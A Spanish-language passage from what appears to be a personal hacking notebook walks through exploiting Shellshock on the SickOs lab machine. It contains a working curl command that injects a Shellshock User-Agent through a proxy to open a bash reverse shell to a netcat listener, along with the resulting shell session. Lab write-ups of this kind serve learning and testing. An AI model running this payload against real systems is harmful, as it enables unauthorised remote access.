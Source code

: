 Resultado:

```bash
www-data
```

Explicación: ahora vemos la ejecución del comando `whoami`. A veces, es necesario añadir uno o hasta dos `echo;` antes del comando a ejecutar para así poder ver su ejecución

---

Acción: 

```bash
nc -lvnp 443
listening on [any] 443 ...
```

Acción:

```bash
curl -s http://192.168.1.62/cgi-bin/status --proxy http://192.168.1.62:3128/ -H "User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.1.66/443 0>&1'"
```

Resultado:

```bash
nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.1.66] from (UNKNOWN) [192.168.1.62] 52636
bash: no job control in this shell
www-data@SickOs:/usr/lib/cgi-bin$ whoami
whoami
www-data
www-data@SickOs:/usr/lib/cgi-bin$ 
```

Explicación: hemos logrado acceso a la máquina víctima. 

**Nota:** en caso de no funcionar el binario, probar en la ruta `/usr/bin/bash`

**Script:** esta acción la podemos ejecutar con un [[iCloudDrive/iCloud~md~obsidian/Git/Setting_Github/Documento Hacker/OWASP TOP 10/Ataque ShellShock/Script|Script]]

---




